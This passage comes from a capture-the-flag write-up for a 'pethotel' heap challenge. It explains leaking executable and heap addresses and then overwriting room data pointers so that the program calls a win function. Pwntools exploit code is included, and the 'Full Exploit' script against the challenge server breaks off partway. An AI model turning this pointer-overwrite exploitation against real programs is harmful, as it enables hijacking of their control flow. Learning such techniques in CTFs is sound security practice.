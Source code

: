 ![leaking addresses](./images/leak.png "leaking addresses")

I confirmed through vmmap that these are indeed executable and heap addresses, so we have a succesful leak! The '+ "ef0"' is there because I kept leaking an incomplete heap address. However, I realised the 3 missing nibbles were the same every time so I added them manually. These might be different if you don't do exactly what I did, so I recommend double checking that they are correct for you. The address should match the data pointer of room 0. We can now try the overwrite we planned before, after calculating the offset between win and our executable link.

The reason we leaked heap is that the program expects a pointer to the address of win, so what we will do is place a pointer to the data of our second room in the data of our first room, place the win address in the data of the second room, and view the first room. This should call the `win` function and give us the flag. Adding the following python code does this and succesfully gets a flag:

```py
win = func_leak - 0x299f
log.success(f"win: {hex(win)}")

log.info("Change data of room 0 to point to data of room 1")
RegisterAddressData(0, p64(int(heap_leak,16)+0x20))

log.info("Change data of room 1 to win func")
RegisterAddressData(1, p64(win))

log.info("Display room 7 to call win and get flag")
ViewRoom(7)
```

![getting flag](./images/flag.png "getting flag")

## Full Exploit:
```py
from pwn import *

# p = process("./pethotel")
# gdb.attach(p)

p = remote("pwn.toys", 30013)

def CheckIn(room, species):
    p.recvuntil(b">")
    p.sendline(b"1")

    p.recvuntil(b">")
    p.sendline(f"{room}".encode())

    p.recvuntil(b">")
    p.sendline(f"{species}".encode())

def RegisterNewData(room, length, data):
    p.recvuntil(b">")
```